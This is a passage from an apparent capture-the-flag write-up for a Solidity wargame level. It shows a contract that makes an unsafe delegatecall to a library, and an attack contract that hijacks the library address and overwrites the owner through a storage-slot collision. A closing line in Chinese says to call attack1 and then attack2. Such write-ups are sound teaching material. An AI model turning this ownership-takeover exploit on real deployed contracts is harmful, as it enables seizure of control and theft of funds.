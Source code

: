 ```solidity
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}

contract attack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    
    address instance_address = 0x7cec052e622c0fb68ca3b2e3c899b8bf8b78663c;
    Preservation target = Preservation(instance_address);
    function attack1() {
        target.setFirstTime(uint(address(this)));
    }
    function attack2() {
        target.setFirstTime(uint(0x88d3052d12527f1fbe3a6e1444ea72c4ddb396c2));
    }
    function setTime(uint _time) public {
        timeZone1Library = address(_time);
        timeZone2Library = address(_time);
        owner = address(_time);
    }
}
```

先調用 `attack1()` ，再調用 `attack2()` 即可

### Result
